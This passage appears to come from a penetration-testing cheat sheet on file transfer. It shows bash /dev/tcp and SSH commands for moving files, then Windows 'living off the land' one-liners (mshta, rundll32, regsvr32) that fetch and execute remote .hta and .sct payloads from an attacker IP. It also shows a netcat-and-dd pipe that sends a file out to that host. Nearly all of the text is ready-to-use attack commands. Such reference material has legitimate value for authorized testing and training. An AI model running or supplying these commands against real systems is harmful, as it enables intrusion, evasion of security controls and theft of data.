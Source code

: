 
## Download Operations

### Using /dev/tcp (Bash)
```bash
# Download file
exec 3<>/dev/tcp/10.10.14.1/8000
echo -e "GET /file.txt HTTP/1.0\r\n\r\n" >&3
cat <&3
```

### SSH
```bash
# Download file
ssh user@10.10.14.1 "cat /path/to/file.txt" > local_file.txt

# Upload file
cat local_file.txt | ssh user@10.10.14.1 "cat > /path/to/remote_file.txt"
```

---

## Living off the Land

### Windows Built-in Tools

#### mshta
```cmd
mshta http://10.10.14.1:8000/payload.hta
```

#### rundll32
```cmd
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:http://10.10.14.1:8000/payload.sct")
```

#### regsvr32
```cmd
regsvr32 /s /n /u /i:http://10.10.14.1:8000/payload.sct scrobj.dll
```

### Linux Built-in Tools

#### dd
```bash
# Receiver
nc -lvnp 4444 | dd of=received_file

# Sender
dd if=file.txt | nc 10.10.14.1 4444
```
